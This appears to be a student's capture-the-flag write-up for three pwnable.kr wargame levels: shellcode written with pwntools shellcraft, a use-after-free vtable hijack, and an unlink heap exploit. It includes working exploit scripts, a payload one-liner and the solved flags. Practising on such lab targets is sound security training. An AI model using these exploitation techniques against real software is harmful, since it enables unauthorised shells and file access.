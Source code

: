  # LEVEL - asm
here we had to write a asm x64 shell script that will open the 
flag read from it and then will write the content to sdtout so instead 
of writing all the assembly we can use pwntools shellcraft that will 
write all the asambly for us that's the code i used to get the flag:
```
from pwn import *
context.arch = 'amd64'
p= remote('pwnable.kr',9026)
p.recvuntil(b'shellcode:')

send = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

send += shellcraft.read('rax','rsp',0x50)

send += shellcraft.write(1,'rsp',0x50)

p.send(asm(send))
get = p.recvline().decode()
print(get)
```
here we conect to pwnable.kr in port 9026 we use shellcraft to make the assembly open code we try to open the flag ( the flag name is relly long)
and than we add to the nessage we will send to the sever to get the flag the assembly cod e of read we use ax as the file discreptor becouse its the register where the return verbels are stored in we store the content of the flag in the stack so we use sp we read 50 byts and than we write what we got from the flag to stdout and in the end we get the flag

 # LEVEL - uaf
 in this level we had to use the mthod use-after-free where we free some space in the heap and than we aloccate memory in the size of the mempry we freed and this memory will go to the same place in the heap here is the code off the program :
 ```
 class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

 int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                       case 1:
                        m->introduce();
                        w->introduce();
                        break;
                       case 2:
                        len = atoi(argv[1]);
                        data = new char[len];
                        read(open(argv[2], O_RDONLY), data, len);
                        cout << "your data is allocated" << endl;
                        break;
                       case 3:
                        delete m;
                        delete w;
                        break;
                       default:
                        break;
                }
        }

        return 0;
}
 ```

so we see that we alocate at the start memory foe the man and women objects and in the loop we can free this memory and we also cat alocate new memory for a string 
when we disassemble the main using gdb we see:

```
mov    rax,QWORD PTR [rbp-0x38]
mov    rax,QWORD PTR [rax]
add    rax,0x8
mov    rdx,QWORD PTR [rax]
mov    rax,QWORD PTR [rbp-0x38]
mov    rdi,rax
call   rdx
```


and this is the place where man and women are stored:

```
            addres         heap       vtabel
man - 0x7fffffffde28 —▸ 0x614ee0 —▸ 0x401570 —▸ 0x40117a (Human::give_shell())
women - 0x7fffffffde30 —▸ 0x614f30 —▸ 0x401550 —▸ 0x40117a (Human::give_shell()) 
```


so we see they point to thire vtabel and the code add 8 to the v tabel to get to the right function with is introduce() but what we can do is free the memory of man and women and than we will alocate memory for the new string in opthion 2 in the swith statment and that string will hold the vtabel addres-8 and this new alocated memory will go to the heap addres of man so when we will try to execute function introduce() the program will go strait to the start of the vtabel and the start of the vtabel holds the function give_shell() so we will get the shell and get the flag 

so i used python2 -c "print('A' * 96 + '\x68\x15\x40\x00\n')" as the string to pass to the new alocated string and the size i sent was 4 becuse the size of the addres is 4 bytes(./uaf 4 python2 -c "print('A' * 96 + '\x68\x15\x40\x00\n')")

the flag is: yay_f1ag_aft3r_pwning

 # LEVEL - unlink
 
 this is the code of the unlink level

```
from pwn import *

p = process("/home/unlink/unlink")


p.recvuntil("leak:")
stack = int(p.recvline().decode()[1:-1],16)
p.recvuntil("leak:")
heap = int(p.recvline().decode()[1:-1],16)

send = b'A' * 16 + p32(heap+36) + p32(stack+16) + b'\xeb\x84\x04\x08'

p.sendline(send)
p.interactive()
```
the flag : conditional_write_what_where_from_unl1nk_explo1t
